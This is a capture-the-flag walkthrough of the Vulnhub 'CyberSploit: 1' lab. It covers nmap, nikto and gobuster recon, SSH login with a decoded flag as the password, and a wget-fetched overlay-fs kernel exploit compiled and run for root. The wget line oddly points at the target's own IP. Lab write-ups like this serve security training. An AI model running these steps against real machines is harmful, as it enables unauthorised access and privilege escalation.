 # Cybersploit:1 ~Vulnhub Walkthrough
Here is Walkthrough of another boot2root challenge called “CyberSploit: 1”. It’s available at Vulnhub for penetration testing. This is an easy level lab. The credit for making this lab goes to cybersploit1. Let’s get started and learn how to successfully break it down. Level: Easy


## Scanning

**nmap 192.168.122.153**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled.png)

**nmap -sV -A 192.168.122.153   (**Service version scanning**)**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%201.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%201.png)

nikto -h http://192.168.122.153/

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%202.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%202.png)

Whatweb [http://192.168.122.153](http://192.168.122.153) (To check cms and programming used by target machine)

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%203.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%203.png)

## Enumeration

[http://192.168.122.153](http://192.168.122.153) (Open target in browser)

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%204.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%204.png)

Checking view-source and found username:itsskv in comment

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%205.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%205.png)

Running gobuster to find more directories and files

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%206.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%206.png)

Opening /hacker directory

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%207.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%207.png)

/robots.txt

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%208.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%208.png)

***Found base64 encoded string.

Lets decode it.

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%209.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%209.png)

***Found Flag1: cybersploit{[youtube.com/c/cybersploit](http://youtube.com/c/cybersploit)}

## Exploitation

Lets connect with ssh and using flag1 as password

**ssh itsskv@192.168.122.153**

password: **cybersploit{[youtube.com/c/cybersploit](http://youtube.com/c/cybersploit)}**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2010.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2010.png)

***Successfully connected

ls 

cat flag2.txt

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2011.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2011.png)

Found another flag but it is encoded in binary so lets decode it from binary to text

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2012.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2012.png)

**flag2: cybersploit{https:t.me/cybersploit1}**

uname -a

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2013.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2013.png)

***3.13.0-32-generic is vulnerable and exploitable using overlay-fs privilege escalation, script is available on exploit-db

## Privilege escalation

Download script from exploit-db and Start python server.

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2014.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2014.png)

Download script in target machine.

cd /tmp

**wget http://192.168.122.153:8000/ofs.c**

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2015.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2015.png)

compile script using command

gcc ofs.c -o ofs

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2016.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2016.png)

Run script on target 

./ofs

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2017.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2017.png)

***Got shell of root user

cd /root 

ls -al

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2018.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2018.png)

cat finalflag.txt

![Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2019.png](Cybersploit%201%20~Vulnhub%20Walkthrough%203597d1429fa64b35b67cc37b342cb05f/Untitled%2019.png)
